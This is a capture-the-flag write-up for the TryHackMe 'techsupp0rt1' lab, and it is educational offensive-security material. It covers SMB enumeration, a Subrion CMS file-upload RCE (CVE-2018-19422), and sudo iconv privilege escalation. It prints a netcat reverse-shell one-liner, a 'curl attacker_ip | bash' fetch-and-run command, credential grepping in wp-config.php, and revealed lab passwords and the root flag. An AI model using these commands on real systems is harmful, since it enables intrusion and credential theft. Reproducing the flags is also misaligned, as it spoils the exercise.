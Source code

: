 # Room: [techsupp0rt1](https://tryhackme.com/room/techsupp0rt1)
(*Hack into the scammer's under-development website to foil their plans.*)


## Basic Enum

Nmap / rustcan

```bash
IP=VICTIM
rustscan -a $IP | tee rustscan.log
[...]
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 63
80/tcp  open  http         syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63
```

- Samba looks intersting :eye:

```bash
smbclient -N -L \\\\$IP\\   

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	websvr          Disk      
	IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

- And sure enough this share websvr is intersting so let's grab the enter.txt file:

```bash
smbclient -N \\\\10.10.213.5\\websvr

smb: \> ls
  .                                   D        0  Sat May 29 09:17:38 2021
  ..                                  D        0  Sat May 29 09:03:47 2021
  enter.txt                           N      273  Sat May 29 09:17:38 2021

                8460484 blocks of size 1024. 5627800 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)

```

It shows some juicy info:

```bash
cat enter.txt      
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->

```
- The "magical formula" was easy to find thanks to the awesome tool https://gchq.github.io/CyberChef/ !
- So what am I looking for now ? :D probably a way to escalte on Subrion CMS security breach.
- It took me a while to figure out where the panel exactly was, as I was blindly following my gobuster/feroxbuster/dirb whatever results 

<details>
  <summary>Click to reveal the admin pass!</summary>

  ```bash
  Scam2021
  ```
</details>

However the following IP `10.0.2.15` trick me while I was looking for the redirect though:

```bash
curl -IXGET http://techsupp0rt1/subrion -L
HTTP/1.1 301 Moved Permanently
Date: Wed, 20 Apr 2022 20:52:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://techsupp0rt1/subrion/
Content-Length: 314
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 302 Found
Date: Wed, 20 Apr 2022 20:52:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: INTELLI_06c8042c3d=s1veerpuqnscvc79rk8nvpatea; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: INTELLI_06c8042c3d=s1veerpuqnscvc79rk8nvpatea; expires=Wed, 20-Apr-2022 21:22:52 GMT; Max-Age=1800; path=/
Location: http://10.0.2.15/subrion/subrion/
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```

And fair enough I found the path I was looking for:

```bash
curl -IXGET http://techsupp0rt1/subrion/panel -L
HTTP/1.1 301 Moved Permanently
Date: Wed, 20 Apr 2022 20:54:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: http://techsupp0rt1/subrion/panel/
Content-Length: 320
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Wed, 20 Apr 2022 20:54:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: INTELLI_06c8042c3d=iuhncvbabhnafckhvefbasmo6d; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: INTELLI_06c8042c3d=iuhncvbabhnafckhvefbasmo6d; expires=Wed, 20-Apr-2022 21:24:54 GMT; Max-Age=1800; path=/
X-Robots-Tag: noindex
Vary: Accept-Encoding
Content-Length: 6203
Content-Type: text/html;charset=UTF-8
```
## Exploiting CVE-2018-19422

So I was able to have fun thanks to https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE 

```bash
$ pwd
/var/www/html/subrion/uploads

$ ls -larth /home
total 12K
drwxr-xr-x 23 root     root     4.0K May 28  2021 ..
drwxr-xr-x  3 root     root     4.0K May 28  2021 .
drwxr-xr-x  4 scamsite scamsite 4.0K May 29  2021 scamsite

```

## Stabilizing our shell

I noticed the **scamsite** user home however as I crashed the shell while trying to stabilize it I decided to upload and running it from the victim machine like so :

on attacker machine:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attacker_ip 4242 >/tmp/f" > lol.sh
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
rlwrap nc -nlvp 4242 
```

on victim machine:
```bash
curl attacker_ip:8000/lol.sh | bash
```

And after stabilizing it I was able to start investagting in a more "convenient" way:

```bash
/var/www/html/wordpress$ grep -iE 'user|pass' wp-con*
wp-config.php:/** MySQL database username */
wp-config.php:define( 'DB_USER', 'support' );
wp-config.php:/** MySQL database password */
wp-config.php:define( 'DB_PASSWORD', 'Im{REDACTED}3!' );
wp-config.php: * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.

```
> The **support** user was also the one we discovered while quickly browsing the /wordpress site.

<details>
  <summary>Click to reveal the DB password!</summary>
  
  ```bash
  ImAScammerLOL!123!
  ```
</details>

## Privesc

I used this password with the scamsite username and...it works ! (FYI: It also worked with the **support** user to connect through wordpress admin panel)
So I did the few following steps to get the root flag:

```bash
ssh scamsite@$IP
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
scamsite@TechSupport:~$ man iconv
scamsite@TechSupport:~$ ls /root/root.txt
ls: cannot access '/root/root.txt': Permission denied
scamsite@TechSupport:~$ LFILE=/root/root.txt
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
851b{REDACTED}790b  -

```

Thanks to [gtfobins break out from restricted environments](https://gtfobins.github.io/gtfobins/iconv/#sudo) :point_left:

<details>
  <summary>Click to reveal the root flag!</summary>
  
  ```bash
  851b8233a8c09400ec30651bd1529bf1ed02790b 
  ```
</details>
 
Houra :partying_face:



### Useful Links:

[rustscan](https://github.com/RustScan/RustScan)

[revshells](https://www.revshells.com/)

[gtfobins](https://gtfobins.github.io/)

[h3v0x/CVE-2018-19422-SubrionCMS-RCE](https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE)
